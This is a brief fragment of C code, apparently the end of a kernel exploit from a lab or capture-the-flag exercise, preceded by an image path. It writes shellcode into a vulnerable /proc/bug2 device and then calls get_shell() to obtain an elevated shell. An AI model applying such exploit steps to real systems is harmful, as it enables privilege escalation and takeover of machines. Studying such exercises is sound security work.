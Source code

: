 ```c
    int fd = open("/proc/bug2", O_WRONLY);
    write(fd, shellcode, strlen(shellcode));
    
    get_shell();
}
```
